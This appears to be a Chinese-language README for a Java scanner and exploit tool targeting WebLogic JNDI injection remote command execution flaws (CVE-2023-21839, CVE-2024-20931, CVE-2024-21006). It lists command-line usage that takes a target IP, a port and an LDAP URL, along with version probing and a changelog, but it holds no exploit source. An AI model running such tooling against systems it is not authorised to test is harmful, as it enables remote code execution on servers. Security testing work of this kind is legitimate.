 # Getting Started



### 功能简介

#### 1. 命令详情介绍

```bash
命令说明：
-h :查看所有命令详情
-l :查看所有支持检测的漏洞列表
-bList :查看所有支持批量检测的漏洞列表
-sVersion :精确扫描目标版本，已支持,
			Weblogic:
            Usage: java -jar xx.jar -sVersion <targetIp> <TargetPort>
jndi使用说明:
			Usage: java -jar xx.jar <cveId> <targetIp> <targetPort> <ldapUrl>

```



#### 2. 支持检测的漏洞列表

```ABAP
Weblogic:
CVE-2023-21839：Weblogic JNDI注入远程命令执行漏洞
CVE-2024-20931：基于CVE-2023-21839绕过，JNDI远程命令执行漏洞
CVE-2024-21006：Weblogic JNDI远程命令执行漏洞

Struts2:

暂无;
```



#### 3.已支持的批量检测

```ABAP
Weblogic:
暂无

Struts2:
暂无

```



### 更新记录



#### 20240723

**新增：**

weblogic 单目标漏洞批量检测，

`java -jar javaRce.jar -weblogic targetIP targetPort ldapUrl`




#### 20240722
**新增：**

> 1. Weblogic Server版本精确探测；



#### 20240719
**新增：**

> 1. CVE-2024-20931：基于CVE-2023-21839绕过，JNDI远程命令执行漏洞；


